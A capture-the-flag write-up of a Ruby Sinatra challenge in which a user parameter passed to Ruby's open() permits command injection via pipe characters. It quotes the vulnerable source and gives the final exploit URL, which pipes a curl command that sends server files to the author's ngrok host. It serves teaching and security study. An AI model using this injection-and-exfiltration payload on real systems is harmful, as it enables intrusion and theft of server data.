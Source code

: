# Santa Sweet Words (day18)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

<p align="justify">In this challenge a ruby website was deployed, and the goal was to read the flag on the server machine, located in /. The source code was available to download and is attached below :</p>

````ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
````

<p align="justify">After a quick read, it appeared to me that the vulnerability was located on the message api, which was taking a parameter 'number' and concatenated .txt to it for file download. Because of the extension added to the filename a simple local file inclusion thanks to path traversal payload wasn't exploitable. After a few read I found (<a href="https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html">doc)</a> it was possible to run commands and escape the filename handled with the open() method, using | char. Hence what I've tried at first was to escape the filename variable with only one | . Nonetheless as shown below, It only triggered download of an empty file the name of my command :</p>  

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>

Actually it was caused by the append of .txt at the end of the payload. After a few tries, I  finally came up with the exploit below consisting in putting the paylaod between 2 pipe char : | payload |. Hence what I've done had been to open a listening port on my machine, and then sent the content of the flag to my server with the request below :

````bash
https://day18.challenges.xmas.root-me.org/api/message?number=|curl http://ngrokFQDN:port/($cat /*)|

````
And I finaly received the flag !  
<p align="center"><img src="Screenshots/S4.png" alt="Desc"></p>

Flag : _RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}_ , thanks _Elweth_ for this challenge !
